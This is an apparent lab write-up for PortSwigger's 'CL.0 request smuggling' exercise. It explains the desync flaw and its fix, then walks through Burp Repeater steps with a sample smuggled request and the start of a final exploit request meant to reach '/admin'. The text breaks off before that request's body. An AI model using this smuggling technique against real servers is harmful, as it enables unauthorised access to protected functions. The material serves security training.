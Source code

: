 #  CL.0 request smuggling

## 📌 Lab Details
- **Title**: CL.0 request smuggling
- **Difficulty**: Practitioner
- **Category**: HTTP Request Smuggling
- **Lab URL**: https://portswigger.net/academy/labs/launch/d886863529b141ab150f460e95da5e785eaaada66785d60da132f5f0155352e6?referrer=%2fweb-security%2frequest-smuggling%2fbrowser%2fcl-0%2flab-cl-0-request-smuggling

## 🔍 Summary
CL.0 is a request-smuggling bug where the front end honors `Content-Length` but the back end treats it as 0, letting an attacker hide a full HTTP request inside another request’s body and get the back end to execute it (e.g., `GET /admin`) over a single persistent connection. Fix by making front/back HTTP parsing consistent, rejecting ambiguous headers, and closing keep-alive on malformed requests.

## 🛠 Steps to Solve
1. Send the `GET /` request to Burp Repeater twice.
2. In Burp Repeater, add both these tabs to a new group.
3. Go to the first request and convert it to a **POST** request.
4. In the body, add an arbitrary request smuggling prefix. The result should look something like this:
   ```sh
   POST / HTTP/1.1
   Host: YOUR-LAB-ID.web-security-academy.net
   Cookie: session=YOUR-SESSION-COOKIE
   Connection: close
   Content-Type: application/x-www-form-urlencoded
   Content-Length: CORRECT

   GET /hopefully404 HTTP/1.1
   Foo: x
   ```
5. Change the path of the main **POST** request to point to an arbitrary endpoint that you want to test.
6. Change the path of the main POST request to point to an arbitrary endpoint that you want to test.
7. Change the Connection header of the first request to `keep-alive`.
8. Send the request and check the responses.
   - If the server responds to the second request as normal, this endpoint is not vulnerable.
   - If the response to the second request matches what you expected from the smuggled prefix (in this case, a 404 response), this indicates that the back-end server is ignoring the Content-Length of requests.
9. Deduce that you can use requests for static files under `/resources`, such as `/resources/images/blog.svg`, to cause a CL.0 desync.
10. In order to access the `admin` panel change the path of the smuggled request to `/admin`.
11. Final Exploit:
    ```sh
    POST /resources/images/blog.svg HTTP/1.1
    Host: 0ac3001f045ee34b83bc065800e600a6.web-security-academy.net
    Cookie: session=14UKliSh47mf6ogPzCjUIQN1sOgqmIZc
    Connection: keep-alive
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 50
